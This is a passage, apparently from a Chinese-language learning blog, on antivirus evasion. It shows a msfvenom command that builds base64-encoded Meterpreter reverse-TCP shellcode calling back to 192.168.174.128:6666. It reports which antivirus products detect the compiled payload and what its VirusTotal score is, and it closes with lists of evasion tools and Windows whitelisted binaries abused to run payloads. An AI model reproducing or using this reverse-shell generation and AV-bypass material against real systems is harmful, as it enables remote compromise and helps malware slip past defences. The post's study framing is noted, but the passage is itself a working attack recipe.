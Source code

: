 使用msf生成base64编码的shellcode：

```
msfvenom -p  windows/meterpreter/reverse_tcp --encrypt base64  lhost=192.168.174.128 lport=6666  -f c > shell.c
```

把`shell.c`的内容复制到上面`shellcode.c`文件中。vs2019编译，关闭杀软，msf可成功上线。

打开杀软，火绒可以查杀，**360不能查杀**。

virustotal.com上查杀率为17/67（原po为28/69）。

![image-20220530155809229](https://typora-notes-1308934770.cos.ap-beijing.myqcloud.com/202205301558330.png)

## 总结

与2020年相比，2022年卷了很多。纵览360和火绒就能直观感受到，确实杀软能力越来越强了。2020年可以Bypass卡巴斯基、McAfee、Symantec等杀软的方法，2022年均失效。

免杀操作层出不穷，特别是近两年也有很多新的优秀项目。本文仅为最基本的免杀方式，前路漫漫，还有很多要学习的，共勉。

一些知识点：

- 常见免杀工具（21种）：msf自免杀、Veil、Venom、Shellter、BackDoor-Factory、Avet、TheFatRat、Avoidz、Green-Hat-Suite、zirikatu、AVIator、DKMC、Unicorn、Python-Rootkit、DKMC、Unicorn、Python-Rootkit、ASWCrypter、nps_payload、GreatSCT、HERCULES、SpookFlare、SharpShooter、CACTUSTORCH、Winpayload等。
- 常见免杀编程语言：C/C++、C#、python、powershell、ruby、go等。
- 常见免杀白名单程序（113个）：Rundll32.exe、Msiexec.exe、MSBuild.exe、InstallUtil.exe、Mshta.exe、Regsvr32.exe、Cmstp.exe、CScript.exe、WScript.exe、Forfiles.exe、te.exe、Odbcconf.exe、InfDefaultInstall.exe、Diskshadow.exe、PsExec.exe、Msdeploy.exe、Winword.exe、Regasm.exe、Regsvcs.exe、Ftp.exe、pubprn.vbs、winrm.vbs、slmgr.vbs、Xwizard.exe、Compiler.exe、IEExec.exe、MavInject32、Presentationhost.exe、Wmic.exe、Pcalua.exe、Url.dll、zipfldr.dll、Syncappvpublishingserver.vbs等。

## 参考链接

- BypassAntiVirus：https://github.com/TideSec/BypassAntiVirus